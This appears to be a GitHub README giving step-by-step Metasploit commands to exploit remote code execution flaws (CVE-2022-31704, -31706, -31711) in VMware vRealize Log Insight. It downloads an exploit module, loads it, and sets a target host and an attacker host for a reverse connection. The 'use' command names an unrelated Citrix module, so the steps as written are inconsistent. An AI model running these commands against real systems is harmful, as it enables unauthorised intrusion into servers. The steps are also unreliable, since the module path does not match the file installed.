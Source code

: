 # CVE-2022-31704
# CVE-2022-31706
# CVE-2022-31711


![](https://img.shields.io/static/v1?label=Product&message=VMWare%20vRealize%20Log%20Insight&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C8.10.2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


### Metasploit Framework 
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/VMware_vRealize_Log_Insight/vmware_vrli_rce.rb
```

```
cp vmware_vrli_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/vmware_vrli_rce.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/freebsd/http/citrix_formssso_target_rce
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```

